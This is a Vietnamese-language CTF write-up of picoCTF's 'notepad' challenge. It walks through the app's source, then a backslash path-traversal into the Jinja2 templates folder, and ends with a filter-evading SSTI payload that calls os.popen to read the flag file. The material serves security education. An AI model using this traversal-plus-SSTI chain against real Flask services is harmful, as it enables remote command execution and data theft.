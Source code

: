 # nodepad
Trang web:

![img](397)

Nội dung code đính kèm:

**Docker file**

    FROM python:3.9.2-slim-buster

    RUN pip install flask gunicorn --no-cache-dir

    WORKDIR /app
    COPY app.py flag.txt ./
    COPY templates templates
    RUN mkdir /app/static && \
        chmod -R 775 . && \
        chmod 1773 static templates/errors && \
        mv flag.txt flag-$(cat /proc/sys/kernel/random/uuid).txt

    CMD ["gunicorn", "-w16", "-t5", "--graceful-timeout", "0", "-unobody", "-gnogroup", "-b0.0.0.0", "app:app"]

**app.py**

    from werkzeug.urls import url_fix
    from secrets import token_urlsafe
    from flask import Flask, request, render_template, redirect, url_for

    app = Flask(__name__)

    @app.route("/")
    def index():
        return render_template("index.html", error=request.args.get("error"))

    @app.route("/new", methods=["POST"])
    def create():
        content = request.form.get("content", "")
        if "_" in content or "/" in content:
            return redirect(url_for("index", error="bad_content"))
        if len(content) > 512:
            return redirect(url_for("index", error="long_content", len=len(content)))
        name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
        with open(name, "w") as f:
            f.write(content)
        return redirect(name)

**/templates/index.html**

    <!doctype html>
    {% if error is not none %}
    <h3>
        error: {{ error }}
    </h3>
    {% include "errors/" + error + ".html" ignore missing %}
    {% endif %}
    <h2>make a new note</h2>
    <form action="/new" method="POST">
    <textarea name="content"></textarea>
    <input type="submit">
    </form>

**/templates/error/bad_content.html**

    the note contained invalid characters

**/templates/error/long_content.html**

    your note (length {{ request.args.get("len") }}) was larger than the maximum (512)


Như vậy có thể thấy:
- Website được built với `Flask`
- Dựa vào dockerfile: `mv flag.txt flag-$(cat /proc/sys/kernel/random/uuid).txt`, file chứa flag sẽ có format là `flag-uuid.txt`, trong đó uuid là random. 
- Từ file `app.py`, tìm ra được 2 endpoint là `/` và `/new`, cho phép tạo một note mới, tôi sẽ không thể sử dụng các ký tự `_` và `/` trong nội dung của note, nếu không, sẽ gặp lỗi `bad_content`. Ngoài ra, nội dung không được vượt quá `512 ký tự`. Nếu không có gì vi phạm, note sẽ được tạo trong thư mục `static` với tên file bao gồm `128 ký tự đầu tiên` của nội dung note, theo sau là `-` với `8 ký tự ngẫu nhiên`, extension sẽ là `.html`. Về hàm [url_fix()](https://tedboy.github.io/flask/_modules/werkzeug/urls.html#url_fix). Tôi thấy rằng hàm này được sử dụng để chuẩn hóa links, trong hàm có dòng sau:

        s = to_unicode(s, charset, 'replace').replace('\\', '/')

Ký tự `\` được thay thế bằng `/` => Nếu điều không chặn sử dụng `\` thay vì `/`, tôi có thể bypass. Vì có một chuyển hướng trực tiếp dựa trên biến `name`, đại diện cho tên file của note đã tạo, tồn tại lỗ hổng `Path Traversal`. Điều này là do tôi có thể kiểm soát `128 ký tự đầu tiên` của tên file, vì chúng được lấy trực tiếp từ nội dung của note.

Lỗi bad_content:

![img](398)

=> Tham số `?error=bad_content` được truyền tương ứng với tên của lỗi và file bên trong thư mục `errors/` có tên `bad_content` được đưa vào trang. Lợi dụng `Path Traversal`, tôi có thể tạo một template bên trong thư mục `templates/errors` và bằng cách truyền tham số `?error=created_template_name`, tôi cũng có thể có thể khai thác lỗ hổng `SSTI`. 

Tôi thử nhập nội dung note là `{{7*7}}`:

![img](399)

Click Submit:

![img](400)

=> Tại sao lại `lỗi 404`? Việc duyệt đường dẫn đã hoạt động, có thể thấy từ URL file được tạo trong thư mục `/templates/errors/name_file.html`, tuy nhiên, tôi để ý rằng tên file `{{7*7}}-inEdFUFX3SI.html` chưa đáp ứng đủ điều kiện để bypass, tên file sẽ bao gồm `128 ký tự đầu tiên` từ nội dung note đã tạo, vì `{},*` là các ký tự đặc biệt, file được tạo trên máy chủ web, nhưng không thể truy cập nó vì máy chủ web không diễn giải tên file một cách chính xác. Tôi có thể bỏ qua vấn đề này bằng cách `chèn 128 ký tự được phép`, ví dụ `128` kí tự `A`, theo sau là `{{ 7*7 }}` (các ký tự bị máy chủ web hiểu sai):

    ..\templates\errors\AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA{{ 7*7 }}

![img](401)

![img](402)

Thành công tạo note, bây giờ tôi sẽ lấy ra tên file: `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA-6Ftd9Qn-cCw.html`, tách phần extension `.html` ra vì tham số `?error` trên URL ra vì nó chỉ nhận tên file:, truy cập `https://notepad.mars.picoctf.net/?error=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA-6Ftd9Qn-cCw`

![img](403)

=> Thành công. Payload cuối cùng:

    ..\templates\errors\AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('echo; cat flag*')|attr('read')() }}

![img](404)
